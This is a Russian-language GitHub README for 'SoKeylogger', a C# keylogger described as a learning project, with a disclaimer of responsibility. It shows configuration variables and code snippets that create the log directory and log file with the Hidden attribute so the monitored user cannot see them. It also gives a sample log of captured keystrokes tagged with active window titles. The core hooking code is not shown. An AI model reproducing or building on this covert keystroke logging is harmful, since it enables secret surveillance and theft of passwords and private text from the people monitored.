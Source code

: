 # SoKeylogger

#### [README_EN]()

### О программе

Разработано с использованием .NET framework 4.0 для большей совместимости.

Приложение позволяет записывать нажатия клавиш на ПК в файл.

#### Приложение было создано в рамках изучения C#. Я не несу ответственности за Ваши действия с приложением и исходным кодом.

### Настройки

Вы можете настроить некоторые параметры, меняя переменные в регионе #Settings.

```csharp
// personal ID of this application. helps to sort log files
private static readonly string KLGR_PERS_ID = "1";
// directory path
private static readonly string DIR_PATH = @"C:\directory name";
// log file name
private static readonly string LOG_FILENAME = @"\filename" + KLGR_PERS_ID + ".txt";
// full path to log file
private static readonly string LOGFILE_FP = DIR_PATH + LOG_FILENAME;
```

### Запись логов

Если директория для логов не существует, она создается и ей устанавливается атрибут "Hidden".<br/>
Пользователь не сможет увидеть директорию без включения функции просмотра скрытых элементов в проводнике.

```csharp
if (!Directory.Exists(DIR_PATH)) {
    DirectoryInfo di = Directory.CreateDirectory(DIR_PATH);
    di.Attributes = FileAttributes.Directory | FileAttributes.Hidden;
}
```

То же и с log файлом. Он создается, если не существует и ему устанавливается атрибут "Hidden".

```csharp
if (!File.Exists(LOGFILE_FP)) {    
    File.Create(LOGFILE_FP);
    FileInfo fi = new FileInfo(LOGFILE_FP);
    fi.Attributes = FileAttributes.Hidden;
}
```

При перезапуске приложения log файл не будет удален. Программа будет добавлять новые записи в конец файла.<br />
Log файл содержит записи в таком виде: [Дата Время][Заголовок активного окна] -> [Клавиша]

```
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> E
[01.01.1970 00:00:00][Notepad] -> S
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> Space
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> H
[01.01.1970 00:00:00][Notepad] -> I
[01.01.1970 00:00:00][Notepad] -> S
```

### Известные проблемы

- При первом запуске приложения, запись логов не начнется, если дикертория и log файл не существуют.
